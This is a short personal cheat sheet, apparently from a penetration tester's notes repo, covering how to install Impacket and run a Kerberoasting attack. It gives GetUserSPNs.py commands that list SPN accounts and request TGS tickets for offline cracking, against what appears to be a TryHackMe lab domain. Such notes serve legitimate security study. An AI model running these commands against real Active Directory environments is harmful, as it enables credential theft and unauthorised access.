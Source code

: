 # Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=$(pipenv --venv)/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

check for SPN accounts:
```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found user:

```
python3 $IMPACKET_SCRIPTS/GetUserSPNs.py -dc-ip 10.10.70.248 THM.red/${DOMAIN_USER}:${DOMAIN_USER_PW}! -request-user ${SPN} -outputfile tgs.txt 
```


